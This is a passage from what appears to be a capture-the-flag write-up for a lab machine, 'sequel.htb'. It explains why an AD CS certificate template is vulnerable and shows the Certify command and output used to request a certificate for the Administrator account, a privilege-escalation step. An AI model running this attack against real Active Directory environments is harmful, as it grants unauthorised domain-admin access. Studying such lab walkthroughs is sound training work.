 ```
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519



Certify completed in 00:00:10.0538947
*Evil-WinRM* PS C:\programdata>
```

We can see a couple of problems resulting in why is this certificate template vulnerable. Let's dig into it a bit.

There are 2 main problems:
1. `msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT` - This ensures that the user that requests the certificate based on this template can supply name of the object the certificate is for. This means that the user can request a certificate for another user e.g. administrator (we'll do this later)
2. `Enrollment Rights: sequel\Domain Users` - This means that any domain user can request a certificate based on this template.

### Abusing AD CS certificate template with Certify & Rubeus

What we can do is request a certificate for the `Administrator` user which we can later use the get a TGT and use it to log into the box. Since we have everything we need. We can use Certify and Rubeus, to perform the attack. We can do it in 5 steps.

#### Step 1 - Request the Administrator certificate

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

We can see that we successfully obtained the certificate:

```
*Evil-WinRM* PS C:\programdata> .\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : Administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
```
